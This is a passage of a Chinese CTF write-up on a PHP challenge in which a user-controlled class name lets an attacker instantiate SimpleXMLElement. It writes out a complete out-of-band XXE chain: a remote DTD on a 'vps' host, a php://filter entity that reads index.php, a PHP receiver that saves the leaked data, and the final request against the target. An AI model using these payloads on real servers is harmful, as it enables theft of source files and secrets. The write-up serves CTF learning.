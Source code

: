 观察其URL可以发现
> show.php?module=calc&args[]=2&args[]=a&args[]=2
> 

url结合calc源码可得到，module为调用的类，args为类的构造方法的参数。在PHP中存在内置类。其中包括SimpleXMLElement


之后我们可以在vps上构造`obj.xml`文件



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE try[   
<!ENTITY % int SYSTEM "http://vps/XXE/evil.xml">  
%int;  
%all;  
%send;  
]>
```

evil.xml文件内容如下：
```xml
<!ENTITY % file  SYSTEM "php://filter/read=convert.base64-encode/resource=file:///home/wwwroot/default/index.php">
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://vps/XXE/1.php?file=%file;'>">
```

1.php代码：
```php
$content=$_GET['file'];
file_put_contents("content.txt",$content);
```
构造如下`payload`
> http://target:8888/show.php?module=SimpleXMLElement&args[]=http://vps/XXE/obj.xml&args[]=2&args[]=true



[参考](<https://www.anquanke.com/post/id/146419#h3-7>)

不过这道题的重点似乎不在xxe上面，而是利用了php中的内置类SimpleXMLElement来达到目的的












